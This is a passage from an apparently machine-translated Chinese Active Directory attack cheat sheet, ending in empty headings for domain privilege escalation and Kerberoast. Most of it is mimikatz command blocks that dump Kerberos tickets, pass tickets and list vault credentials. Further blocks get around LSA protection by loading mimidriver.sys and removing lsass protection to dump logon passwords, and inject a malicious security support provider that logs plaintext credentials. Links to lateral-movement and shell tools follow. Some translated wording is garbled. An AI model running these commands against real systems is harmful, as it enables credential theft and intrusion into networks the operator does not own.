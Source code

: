 ```
mimikatz kerberos::list /dump#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>#List TS/RDP sessions
mimikatz ts::sessions#List Vault credentials
mimikatz vault::list
```

❗如果 mimikatz 因为 LSA 保护控制而无法转储凭证，该怎么办？\

*   LSA 作为受保护的进程(内核土地旁路)

```
#Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa#Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
#Now lets import the mimidriver.sys to the system
mimikatz # !+#Now lets remove the protection flags from lsass.exe process
mimikatz # !processprotect /process:lsass.exe /remove#Finally run the logonpasswords function to dump lsass
mimikatz # sekurlsa::logonpasswords
```

*   LSA 作为受保护的进程(用户土地“无文件”绕过)
*   [PPLdump](https://github.com/itm4n/PPLdump)
*   [绕过用户区的 LSA 保护](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
*   LSA 由凭据保护作为虚拟化进程(LSAISO)运行

```
#Check if a process called lsaiso.exe exists on the running processes
tasklist |findstr lsaiso#If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
#Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
mimikatz # misc::memssp#Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
```

*   [详细的 Mimikatz 指南](https://adsecurity.org/?page_id=1821)
*   [用 2 个 lsass 保护选项四处打探](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

# 有用的工具

*   [Powercat](https://github.com/besimorhino/powercat) netcat 用 powershell 编写，提供隧道、中继和端口转发功能。
*   [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) 依靠 ChangeServiceConfigA 运行命令的无文件横向移动工具
*   用于黑客攻击/测试的终极 Winrm 外壳
*   [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp 和 windows 内置 runas.exe 的开放版本

# 域权限提升

# Kerberoast
